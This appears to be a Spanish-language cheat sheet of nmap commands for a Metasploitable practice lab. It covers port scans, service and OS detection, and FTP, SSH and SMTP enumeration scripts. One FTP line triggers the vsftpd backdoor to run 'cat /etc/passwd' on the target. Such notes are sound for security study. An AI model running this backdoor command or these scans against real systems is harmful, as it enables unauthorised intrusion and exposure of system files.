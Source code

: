 ### Escaneo

```sh
sudo nmap -n -PN -sS {TARGET}
sudo nmap -n -PN -sS -p 21,22,23,25-100,443 {TARGET}
sudo nmap -n -PN -sS -p- {TARGET}
sudo nmap -n -PN -sS -sV -p 21,22,23,500 X {TARGET} 
sudo nmap -n -PN -sS -sV -O -p- {TARGET} # todos los puertos
sudo nmap -n -PN -sS -sV -O -p- {TARGET} -oA Metasploitable -v # exportar resultados

sudo nmap -n -PN -A -T4 -p- {TARGET} # -A = -sS -sV -O
```

### Scripts

```sh
ll /usr/share/nmap/scripts # carpeta de scripts
sudo nmap -n -PN -sS -sV -sC -O -p- {TARGET} -oA Metasploitable2 -v
sudo nmap -n -PN --script ftp-vsftpd-backdor.nse -p 21  {TARGET}
```

#### ftp

```sh
sudo nmap -n -PN --script /usr/share/nmap/scripts/ftp-vsftpd-backdor.nse -p 21  {TARGET}
sudo nmap -n -PN --script ftp-vsftpd-backdoor -p 21 {TARGET}
sudo nmap -n -PN --script ftp-vsftpd-backdoor --script-args ftp-vsftpd-backdoor.cmd  -p 21 {TARGET}
sudo nmap -n -PN --script ftp-vsftpd-backdoor --script-args ftp-vsftpd-backdoor.cmd='cat /etc/passwd'  -p 21 {TARGET}
```

#### ssh

```sh
22/tcp    open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|   2048 5656240f211ddea72bae61b1243de8f3 (RSA)
```

```sh
# scripts de NMAP
ll /usr/share/nmap/scripts | grep ssh
# Enumeración
sudo nmap -n -PN --script ssh2-enum-algos.nse {TARGET}

# Métodos de a utenticación
sudo nmap -n -PN --script ssh-auth-methods.nse {TARGET}
```

#### SMTP

```sh
ll /usr/share/nmap/scripts/ | grep smtp

sudo nmap -n -PN -p 25 --script smtp-commands.nse {TARGET}
```
